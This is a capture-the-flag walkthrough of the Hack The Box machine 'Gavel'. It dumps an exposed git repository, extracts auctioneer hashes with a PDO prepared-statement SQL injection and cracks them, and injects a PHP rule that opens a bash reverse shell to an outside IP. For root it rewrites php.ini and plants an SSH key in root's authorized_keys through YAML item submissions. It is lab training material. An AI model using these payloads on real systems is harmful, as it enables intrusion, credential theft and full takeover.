


## Overview
Gavel is a medium linux box with an exposed git directory where we'll use `git-dumper` and then analyze some source code which allows us to spot a pretty cool in-band SQLi technique that abuses a php's MySQL PDO parser. The path continues with php_runkit abuse via rule editing to pop a reverse shell. Then we pivot via password reuse to another user who is apart of a group that can use a binary that runs a new php instance as root. This binary can submit new items to gavel instance and we can abuse the rules again, with a slight tweak to gain root access. 


## Inititial Recon
```bash
IP=10.129.15.166

```
### Scanning

```bash
nmap -sCV -oA nmap/gavel -Pn -T4 --min-rate 1000 -p- $IP
Starting Nmap 7.98 ( https://nmap.org ) at 2025-12-27 00:20 -1000
Warning: 10.129.15.166 giving up on port because retransmission cap hit (6).
Nmap scan report for gavel.htb (10.129.15.166)
Host is up (0.14s latency).
Not shown: 56902 closed tcp ports (conn-refused), 8631 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 1f:de:9d:84:bf:a1:64:be:1f:36:4f:ac:3c:52:15:92 (ECDSA)
|_  256 70:a5:1a:53:df:d1:d0:73:3e:9d:90:ad:c1:aa:b4:19 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
| http-git:
|   10.129.15.166:80/.git/
|     Git repository found!
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: ..
|_http-title: Gavel Auction
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 192.04 seconds
```

With no initial credentials, it's looking like port 80 is the destination we're after for now, especially since we have an exposed git directory.

```bash
$curl  http://$IP -I
HTTP/1.1 301 Moved Permanently
Date: Sat, 27 Dec 2025 10:23:49 GMT
Server: Apache/2.4.52 (Ubuntu)
Location: http://gavel.htb/
Content-Type: text/html; charset=iso-8859-1
```

We'll add the redirected url to our hosts file:
```bash
add_to_hosts $IP gavel.htb
## Alternatively
sudo echo "$IP gavel.htb" >> /etc/hosts
```

### gavel.htb

Now we can visit the website.



We can create an account, place some bids, and have some items pop up in our invetory. On the surface it doesn't seem like much, so let's explore the `.git` directory

```bash
git-dumper http://gavel.htb gavel.git
[-] Testing http://gavel.htb/.git/HEAD [200]
[-] Testing http://gavel.htb/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://gavel.htb/.gitignore [404]
[-] http://gavel.htb/.gitignore responded with status code 404
[-] Fetching http://gavel.htb/.git/ [200]
[-] Fetching http://gavel.htb/.git/logs/ [200]
[-] Fetching http://gavel.htb/.git/HEAD [200]
[-] Fetching http://gavel.htb/.git/info/ [200]
[-] Fetching http://gavel.htb/.git/hooks/ [200]
[-] Fetching http://gavel.htb/.git/index [200]
[-] Fetching http://gavel.htb/.git/logs/HEAD [200]
[-] Fetching http://gavel.htb/.git/refs/ [200]
[-] Fetching http://gavel.htb/.git/logs/refs/ [200]
[-] Fetching http://gavel.htb/.git/info/exclude [200]
[-] Fetching http://gavel.htb/.git/objects/ [200]
[-] Fetching http://gavel.htb/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://gavel.htb/.git/hooks/commit-msg.sample [200]
[-] Fetching http://gavel.htb/.git/hooks/post-update.sample [200]
[-] Fetching http://gavel.htb/.git/hooks/fsmonitor-watchman.sample [200]
[-] Fetching http://gavel.htb/.git/hooks/pre-commit.sample [200]
[-] Fetching http://gavel.htb/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://gavel.htb/.git/hooks/pre-merge-commit.sample [200]
[-] Fetching http://gavel.htb/.git/hooks/pre-push.sample [200]
[-] Fetching http://gavel.htb/.git/hooks/prepare-commit-msg.sample [200]
[-] Fetching http://gavel.htb/.git/hooks/pre-receive.sample [200]
[-] Fetching http://gavel.htb/.git/hooks/pre-rebase.sample [200]
[-] Fetching http://gavel.htb/.git/hooks/push-to-checkout.sample [200]
[-] Fetching http://gavel.htb/.git/branches/ [200]
[-] Fetching http://gavel.htb/.git/COMMIT_EDITMSG [200]
[-] Fetching http://gavel.htb/.git/logs/refs/heads/ [200]
[-] Fetching http://gavel.htb/.git/hooks/update.sample [200]
[-] Fetching http://gavel.htb/.git/refs/heads/ [200]
[-] Fetching http://gavel.htb/.git/refs/tags/ [200]
[-] Fetching http://gavel.htb/.git/objects/0a/ [200]
[-] Fetching http://gavel.htb/.git/objects/0c/ [200]
[-] Fetching http://gavel.htb/.git/objects/0b/ [200]
[-] Fetching http://gavel.htb/.git/objects/0d/ [200]
[-] Fetching http://gavel.htb/.git/objects/0e/ [200]
[-] Fetching http://gavel.htb/.git/objects/0f/ [200]
[-] Fetching http://gavel.htb/.git/objects/00/ [200]
[-] Fetching http://gavel.htb/.git/objects/02/ [200]
....
[-] Sanitizing .git/config
[-] Running git checkout .
Updated 1849 paths from the index
```

```bash
$ cd gavel.git && ls -1
admin.php
assets/
bidding.php
includes/
index.php
inventory.php
login.php
logout.php
register.php
rules/
```

Doing some static code analysis we can find some relevant information:

- `includes/config.php` : Database Credentials
```php
<?php

define('DB_HOST', 'localhost');
define('DB_NAME', 'gavel');
define('DB_USER', 'gavel');
define('DB_PASS', 'gavel');

define('ROOT_PATH', dirname(__DIR__));

$basePath = rtrim(dirname($_SERVER['SCRIPT_NAME']), '/');
define('BASE_URL', $basePath);
define('ASSETS_URL', $basePath . '/assets');

```


- `admin.php` : We can specify rules for auctions as the `auctioneer` user
```php
<?php
require_once __DIR__ . '/includes/config.php';
require_once __DIR__ . '/includes/db.php';
require_once __DIR__ . '/includes/session.php';
require_once __DIR__ . '/includes/auction.php';

if (!isset($_SESSION['user']) || $_SESSION['user']['role'] !== 'auctioneer') {
    header('Location: index.php');
    exit;
}

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $auction_id = intval($_POST['auction_id'] ?? 0);
    $rule = trim($_POST['rule'] ?? '');
    $message = trim($_POST['message'] ?? '');

    if ($auction_id > 0 && (empty($rule) || empty($message))) {
        $stmt = $pdo->prepare("SELECT rule, message FROM auctions WHERE id = ?");
        $stmt->execute([$auction_id]);
        $row = $stmt->fetch(PDO::FETCH_ASSOC);
        if (!$row) {
            $_SESSION['success'] = 'Auction not found.';
            header('Location: admin.php');
            exit;
        }
        if (empty($rule))    $rule = $row['rule'];
        if (empty($message)) $message = $row['message'];
    }

    if ($auction_id > 0 && $rule && $message) {
        $stmt = $pdo->prepare("UPDATE auctions SET rule = ?, message = ? WHERE id = ?");
        $stmt->execute([$rule, $message, $auction_id]);
        $_SESSION['success'] = 'Rule and message updated successfully!';
        header('Location: admin.php');
        exit;
    }
}

```

- `includes/bid_handler.php` : Dynamic code replacement via runkit_function_add
```php
<?php 
try {
    if (function_exists('ruleCheck')) {
        runkit_function_remove('ruleCheck');
    }
    runkit_function_add('ruleCheck', '$current_bid, $previous_bid, $bidder', $rule);
    error_log("Rule: " . $rule);
    $allowed = ruleCheck($current_bid, $previous_bid, $bidder);
} catch (Throwable $e) {
    error_log("Rule error: " . $e->getMessage());
    $allowed = false;
}

```

- `inventory.php` : The impossible sql injection
```php
<?php
require_once __DIR__ . '/includes/config.php';
require_once __DIR__ . '/includes/db.php';
require_once __DIR__ . '/includes/session.php';

if (!isset($_SESSION['user'])) {
    header('Location: index.php');
    exit;
}

$sortItem = $_POST['sort'] ?? $_GET['sort'] ?? 'item_name';
$userId = $_POST['user_id'] ?? $_GET['user_id'] ?? $_SESSION['user']['id'];
$col = "`" . str_replace("`", "", $sortItem) . "`";
$itemMap = [];
$itemMeta = $pdo->prepare("SELECT name, description, image FROM items WHERE name = ?");
try {
    if ($sortItem === 'quantity') {
        $stmt = $pdo->prepare("SELECT item_name, item_image, item_description, quantity FROM inventory WHERE user_id = ? ORDER BY quantity DESC");
        $stmt->execute([$userId]);
    } else {
        $stmt = $pdo->prepare("SELECT $col FROM inventory WHERE user_id = ? ORDER BY item_name ASC");
        $stmt->execute([$userId]);
    }
    $results = $stmt->fetchAll(PDO::FETCH_ASSOC);
} catch (Exception $e) {
    $results = [];
}
```

We can get an outline of what we likely have to do:

1. SQLi abuse in `inventory.php` to get the `auctioneer` credentials
2. Crack auctioneer credentials
3. Create malicious rule as auctioneer, getting a reverse shell
4. Celebrate our joyous foothold


So how do we abuse that SQLi?

This [source](https://slcyber.io/research-center/a-novel-technique-for-sql-injection-in-pdos-prepared-statements/) was extremely useful.

> What may surprise you, however, is exactly how PDO achieves this safety. You might reasonably assume that because it’s called prepare and it looks like a prepared statement, that PDO is using MySQL’s native prepared statement API here. However, this is not how this code is working. In fact, PDO emulates all prepared statements in MySQL by default. Unless you explicitly disable PDO::ATTR_EMULATE_PREPARES PDO will actually do all the escaping itself before your query even hits the database.

the PDO implements its own parser which in certain circumstances can be abused. Luckily for us, the posts example has our exact same setup.

```sql
SELECT $col from inventory where user_id = ? ORDER BY item_name ASC
```

And we have to alter this request a bit to make it work:
```
?name=x` FROM (SELECT table_name AS `'x` from information_schema.tables)y;%23&col=\?%23%00
```

```
# Change variables
?user_id=x` FROM (SELECT table_name AS `'x` from information_schema.tables)y;%23&sort=\?%23%00
```

```
# Change comment from # (%23) to -- - (needed for this particular DB)
?user_id=x` FROM (SELECT table_name AS `'x` from information_schema.tables)y;-- -&sort=\?-- -%00
```

```
# URL Encode appropriate paramteres
?user_id=x`+FROM+%28SELECT+table_name+AS+`%27x`+from+information_schema.tables%29y%3b--+-%0a&sort=\%3f--+-%00
```

```bash
GAVEL_COOKIE='gavel_session=etatl54fsoo9v5k6gnr5m9pg9p'
curl -b $GAVEL_COOKIE 'http://gavel.htb/inventory.php?user_id=x`+FROM+%28SELECT+table_name+AS+`%27x`+from+information_schema.tables%29y%3b--+-%0a&sort=\%3f--+-%00' | grep -oP '(?<=<h5 class="card-title"><strong>).*?(?=</strong>)'
auctions
inventory
items
users
<snip>
```

And there we have our inband-sql injection


And now we can grab the users table to see if can become an auctioneer. We can do that with group_concat.
The non-encoded payload would be:
```
?user_id=x` FROM (SELECT group_concat(username,0x3a,password) AS `'x` from users)y;-- -&sort=\?;-- -\0
```


```bash
curl -s -b $GAVEL_COOKIE 'http://gavel.htb/inventory.php?user_id=x`+FROM+%28SELECT+group_concat%28username%2c0x3a%2cpassword%29+AS+`%27x`+from+users%29y%3b--+-&sort=\%3f--+-%00' | grep -oP '(?<=<h5 class="card-title"><strong>).*?(?=</strong>)' | tr ',' '\n' | tee -a db.hashes
auctioneer:$2y$10$MNkDH<redacted>0pLQlC2So9SgH5RTfS
abc:$2y$10$wmRx<redacted>wQXSQeyCdSCQJRsoiPykfm
```

Hashcat will recognize this as a few potential hashes, but it's the unix bcrypt 3200. 

```bash
hashcat db.hashes /seclists/rockyou.txt --username -m3200
...
auctioneer:<redacted>t1
abc:<redacted>
```


### gavel.htb - Auctioneer

Now we can login with our nice new creds and use the admin panel and abuse the rule runkit function we saw earlier.




```bash
GAVEL_AUCTION_COOKIE='gavel_session=1a69mrmdqjvdpj6clmpdeo8ol8'
AUCTION_ID=169
curl -s -b $GAVEL_AUCTION_COOKIE http://gavel.htb/admin.php -d "auction_id=$AUCTION_ID" -d 'rule=return+system%28%22bash+-c+%5C%22bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.15.147%2F9001+0%3E%261%5C%22%22%29%3B&message='

```

We need to set up our nc listener now and then send a bid to make sure the rule runs.

```bash
nc -lvnp 9001 &
curl -s -b $GAVEL_AUCTION_COOKIE -d "auction_id=$AUCTION_ID" -d 'bid_amount=10000' http://gavel.htb/includes/bid_handler.php

bash: cannot set terminal process group (1060): Inappropriate ioctl for device
bash: no job control in this shell
www-data@gavel:/var/www/html/gavel/includes$
```


And we're on the machine :)
## Foothold

### Shell as www-data

First we should upgrade our shell

```bash
www-data@gavel:/var/www/html/gavel/includes$ script -qc /bin/bash /dev/null
stty raw -echo;fg
```

We check for users:

```bash
grep 'sh$' /etc/passwd
root:x:0:0:root:/root:/bin/bash
auctioneer:x:1001:1002::/home/auctioneer:/bin/bash
```

auctioneer shows up again?

Let's see if there's password reuse.
```bash
www-data@gavel:/var/www/html/gavel/includes$ su - auctioneer
Password:
auctioneer@gavel:~$ cat $HOME/user.txt
506dadc5b62b48c14b482264da198b0d
```


## Lateral Movement / Privilege Escalation

### Shell as auctioneer

Let's do some basic user enumeration here:
```bash
# SUDO CHECK
auctioneer@gavel:~$ sudo -l
[sudo] password for auctioneer:
Sorry, user auctioneer may not run sudo on gavel.

# GROUPS CHECK
auctioneer@gavel:~$ groups
auctioneer gavel-seller


auctioneer@gavel:~$ find / -group gavel-seller 2>/dev/null
/run/gaveld.sock
/usr/local/bin/gavel-util

```


And checking the root folder we'll see an invoice.txt and in the `/opt` folder there is a gavel directory.

```bash
auctioneer@gavel:~$ ls -laR /opt
/opt:
total 12
drwxr-xr-x  3 root root 4096 Nov  5 12:46 .
drwxr-xr-x 19 root root 4096 Nov  5 12:46 ..
drwxr-xr-x  4 root root 4096 Nov  5 12:46 gavel

/opt/gavel:
total 56
drwxr-xr-x 4 root root  4096 Nov  5 12:46 .
drwxr-xr-x 3 root root  4096 Nov  5 12:46 ..
drwxr-xr-x 3 root root  4096 Nov  5 12:46 .config
-rwxr-xr-- 1 root root 35992 Oct  3 19:35 gaveld
-rw-r--r-- 1 root root   364 Sep 20 14:54 sample.yaml
drwxr-x--- 2 root root  4096 Nov  5 12:46 submission

/opt/gavel/.config:
total 12
drwxr-xr-x 3 root root 4096 Nov  5 12:46 .
drwxr-xr-x 4 root root 4096 Nov  5 12:46 ..
drwxr-xr-x 2 root root 4096 Nov  5 12:46 php

/opt/gavel/.config/php:
total 12
drwxr-xr-x 2 root root 4096 Nov  5 12:46 .
drwxr-xr-x 3 root root 4096 Nov  5 12:46 ..
-rw-r--r-- 1 root root  502 Oct  3 19:35 php.ini
ls: cannot open directory '/opt/gavel/submission': Permission denied
```

This opt folder has it's own php.ini which is interesting.

```bash
auctioneer@gavel:~$ cat /opt/gavel/.config/php/php.ini
engine=On
display_errors=On
display_startup_errors=On
log_errors=Off
error_reporting=E_ALL
open_basedir=/opt/gavel
memory_limit=32M
max_execution_time=3
max_input_time=10
disable_functions=exec,shell_exec,system,passthru,popen,proc_open,proc_close,pcntl_exec,pcntl_fork,dl,ini_set,eval,assert,create_function,preg_replace,unserialize,extract,file_get_contents,fopen,include,require,require_once,include_once,fsockopen,pfsockopen,stream_socket_client
scan_dir=
allow_url_fopen=Off
allow_url_include=Off
```

It has a lot more disabled functions and open_basedir active.

Most of them are obvious, like disabled_functions, but open_basedir is a little less obvious.
What does it do?

[The Docs](https://www.php.net/manual/en/ini.core.php)
>  Limit the files that can be accessed by PHP to the specified directory-tree, including the file itself.
>When a script tries to access the filesystem, for example using include, or fopen(), the location of the file is checked. When the file is outside the specified directory-tree, PHP will refuse to access it. All symbolic links are resolved, so it's not possible to avoid this restriction with a symlink. If the file doesn't exist then the symlink couldn't be resolved and the filename is compared to (a resolved) open_basedir. 

So if we try to write to something outside of `/opt/gavel` we'll be hit with an error.

The `gavel-util` program seems to be a pipe into the active `gavel.htb` instance from using the stats flag.
```bash
auctioneer@gavel:~$ gavel-util
Usage: gavel-util <cmd> [options]
Commands:
  submit <file>           Submit new items (YAML format)
  stats                   Show Auction stats
  invoice                 Request invoice
auctioneer@gavel:~$ gavel-util stats
=================== GAVEL AUCTION DASHBOARD ===================

[Active Auctions]
ID   Item Name                      Current Bid   Ends In
205  Goblin-Signed NDA              667           01:37
206  Boots of Slight Speed          599           02:12
207  Goblin-Signed NDA              532           02:12

[Recently Ended Auctions]
ID   Item Name                      Final Price   Winner
204  Certificate of Authenticity    1476          None
203  Time-Traveling Spoon           1113          None
202  Helmet of Thought Suppression  820           None

```

It seems like it's running though as a higher-privileged account and we might be able to use the same rule abuse trick just with a bit of variation. Since it looks like we can submit new items in the form of a yaml document.


### Root Pivot

It takes a small bit of troubleshooting, but from the original source code you can see that there's a few fields you need:
```yml
name: "PwnBrix"
description: "Bricks O' Pwn"
image: "ring.jpg"
price: "100"
rule_msg: "Ain't Nothing Here"
```

And submitting bad files will usually provide a helpful error:
```bash
auctioneer@gavel:~$ gavel-util submit test.yaml
YAML missing required keys: rule
```


So what would we put for the rule?

We cannot use any typical system execute commands due to the restriction but we still have write permissions inside the `/opt/gavel` directory. So perhaps we can write over something useful there. Like the php.ini?

The nicest way to do this, while preserving most of the original file is to just append a null list for either the disable_functions or the open_basedir.

This works because php evaluates top-down and whatever is last takes precedence. So if we just have another flag of `open_basedir=` or `disable_functions=` we'd be able to write to any file or just get RCE as root.

```bash
cat << EOF > disable_shells.yaml && gavel-util submit ./disable_shells.yaml
name: enabled
description: enabled
image: ring.jpg
price: 1
rule_msg: my_functions
rule: |
  file_put_contents('/opt/gavel/.config/php/php.ini', "\nopen_basedir=\n", FILE_APPEND);
  return false;
EOF

```

```bash
Item submitted for review in next auction
auctioneer@gavel:~$ cat /opt/gavel/.config/php/php.ini
engine=On
display_errors=On
display_startup_errors=On
log_errors=Off
error_reporting=E_ALL
open_basedir=/opt/gavel
memory_limit=32M
max_execution_time=3
max_input_time=10
disable_functions=exec,shell_exec,system,passthru,popen,proc_open,proc_close,pcntl_exec,pcntl_fork,dl,ini_set,eval,assert,create_function,preg_replace,unserialize,extract,file_get_contents,fopen,include,require,require_once,include_once,fsockopen,pfsockopen,stream_socket_client
scan_dir=
allow_url_fopen=Off
allow_url_include=Off

open_basedir=

```

Now we can generate an SSH-key and just write to `/root/.ssh/authorized_keys`
```bash
ssh-keygen -t ed25519 -f ./gavel_admin -N "" -C "root@gavel.htb"
Generating public/private ed25519 key pair.
Your identification has been saved in ./gavel_admin
Your public key has been saved in ./gavel_admin.pub
The key fingerprint is:
SHA256:YLj4HHX6rbYJu2xkqkLI8ay+UZvqlTE2Ub68s3LyYwU root@gavel.htb
The key's randomart image is:
+--[ED25519 256]--+
|     .           |
|    o.           |
|   ...+ .        |
| . .oE.+         |
|o =*ooo S        |
|.oo=B.+o .       |
|...=o*o . .      |
|..+o.=+o.o       |
|o*o.*+=o+.       |
+----[SHA256]-----+

```

```bash
cat gavel_admin.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEqT5RHpYNG+2LABX+uRrreODzcLMaDfxR5NY5c1SsVx root@gavel.htb
```

```bash
cat << EOF > ssh_key.yaml && gavel-util submit ./ssh_key.yaml
name: enabled
description: enabled
image: ring.jpg
price: 1
rule_msg: my_functions
rule: |
 file_put_contents('/root/.ssh/authorized_keys', "\nssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEqT5RHpYNG+2LABX+uRrreODzcLMaDfxR5NY5c1SsVx root@gavel.htb", FILE_APPEND); 
  return false;

EOF
Item submitted for review in next auction

```

```bash

ssh -i gavel_admin root@gavel.htb 'cat ~/root.txt'
c13c58dd280340410aa502a170296509
```

And that's the box.

## Beyond

There's a curiosity with this box though. Because I did try and ssh into the box with auctioneer and his password, but that didn't work. Why?

The SSH doesn't say that it doesn't accept password authentication, so there should be something in the config that gives us the answer.


Tad bit of snooping in the `sshd_config`
```bash
root@gavel:/etc/ssh# grep -vE '^(#|$)' /etc/ssh/sshd_config
Include /etc/ssh/sshd_config.d/*.conf
PermitRootLogin yes
KbdInteractiveAuthentication no
UsePAM yes
X11Forwarding yes
PrintMotd no
PrintLastLog no
AcceptEnv LANG LC_*
Subsystem	sftp	/usr/lib/openssh/sftp-server
DenyUsers auctioneer

```

So auctioneer is just denied access :)
